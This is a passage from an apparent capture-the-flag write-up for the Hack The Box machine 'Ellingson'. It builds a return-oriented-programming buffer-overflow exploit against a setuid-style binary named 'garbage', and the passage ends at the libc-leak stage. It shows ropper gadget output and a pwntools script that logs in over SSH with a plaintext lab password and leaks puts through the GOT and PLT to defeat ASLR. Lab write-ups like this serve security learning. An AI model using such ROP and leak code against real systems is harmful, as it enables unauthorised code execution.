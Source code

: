 First we need a gadget that pop `RDI`

```bash
ropper
(ropper)> file garbage
(garbage/ELF/x86_64)> gadgets
----
----
----
0x000000000040179b: pop rdi; ret;                                               
----
```

Next thing for leak the real `puts` function is to find the address of `puts` at plt and the pointer of `puts` at plt:

![image8](/assets/images/htb-ellingson/ellingson8.png)

And the address of main, that we need it at the end, because ASLR is enabled so it will be useful, because we can overflow it again knowing the libc address and use its functions, the exploit would be like this:

```python
from pwn import *

s = ssh(user="margo",password="iamgod$08",host="10.10.10.139")
p = s.run("/usr/bin/garbage")

# GADGETS
POP_RDI = p64(0x40179b)

# ADDRESSES
main = p64(0x401619)
puts_got = p64(0x404028)
puts_plt = p64(0x401050)

# 1 - Leaking libc address
payload = b"a"*136 #offset
payload += POP_RDI
payload += puts_got
payload += puts_plt
payload += main

p.recvuntil(":")
p.sendline(payload)
p.recvuntil("access denied.\n")

puts_leak = u64(p.recv()[:8].strip().ljust(8,b"\x00"))
log.info(f"PUTS LEAK: {hex(puts_leak)}")
```
